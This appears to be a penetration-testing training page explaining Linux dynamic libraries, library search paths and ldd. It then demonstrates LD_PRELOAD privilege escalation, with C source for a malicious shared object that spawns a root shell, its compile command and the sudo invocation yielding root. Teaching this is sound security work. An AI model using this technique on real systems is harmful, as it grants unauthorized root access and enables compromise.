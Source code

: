 It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: static libraries (denoted by the .a file extension) and `dynamically linked shared object libraries` (denoted by the .so file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.

Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the ldd utility.

> ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)

The image above lists all the libraries required by` /bin/ls`, along with their absolute paths.

# LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the <LD_PRELOAD> (*https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html*) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

> sudo -l

    Matching Defaults entries for daniel.carter on NIX02:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

    User daniel.carter may run the following commands on NIX02:
        (root) NOPASSWD: /usr/sbin/apache2 restart

This user has rights to restart the Apache service as root, but since this is `NOT` a <GTFOBin> and the `/etc/sudoers entry` is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

<Code: c>

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }


We can compile this as follows: 

> gcc -fPIC -shared -o root.so root.c -nostartfiles

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

> sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

    id
    uid=0(root) gid=0(root) groups=0(root)